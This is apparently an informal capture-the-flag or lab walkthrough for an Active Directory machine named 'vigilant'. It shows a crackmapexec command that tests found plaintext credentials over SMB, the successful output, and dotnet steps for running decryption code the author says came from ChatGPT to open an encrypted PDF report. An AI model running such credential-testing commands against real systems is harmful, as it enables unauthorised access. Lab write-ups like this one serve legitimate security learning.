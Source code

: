 I found some creds from here lets check out with crackmapexec.

    ➜  vigilant crackmapexec smb 10.10.216.69-70 -u svc_auditreporter -p 'DeVeLoPeR712'
    SMB         10.10.216.69    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:vigilant.vl) (signing:True) (SMBv1:False)
    SMB         10.10.216.69    445    DC               [+] vigilant.vl\svc_auditreporter:DeVeLoPeR712 

ye creds is work but we dont know yet how enc pdf files lets check more.

i found nothing actually so decide to install ADAuditLib.dll for analyze.

![alt text](<../assets/images/Ekran Görüntüsü (25).png>)

finally found it lets vist chatgpt and it can give us code for decyrpt it.

https://chatgpt.com/share/501cee99-dd13-4065-8038-9c1e7d17f8be

yeah its look like work let see.

    sudo apt update
    sudo apt install -y dotnet-sdk-6.0
    dotnet new console -n ADAuditLib
    cd ADAuditLib
    dotnet build
    ➜  ADAuditLib dotnet run decrypt Password_Strength_Report_encrypted.pdf 
    ➜  ADAuditLib ls
    ADAuditLib.csproj  Password_Strength_Report_encrypted.pdf  Program.cs  bin  decrypt.pdf  obj

this is my steps for using this code.

and we found creds successfully.
